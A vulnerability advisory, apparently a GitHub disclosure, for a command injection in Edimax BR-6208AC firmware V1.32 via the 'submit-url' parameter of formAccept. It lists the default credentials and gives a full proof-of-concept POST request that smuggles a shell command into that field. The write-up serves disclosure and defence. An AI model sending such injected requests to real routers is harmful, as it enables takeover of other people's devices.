



## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the `submit-url` parameter in the 'formAccept' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 


## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formAccept' is below:

- ​**websGetVar** retrieves POST parameters 'submit-url'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formAccept HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 63
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp
Upgrade-Insecure-Requests: 1  
  
submit-url=echo aaaccept>/poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
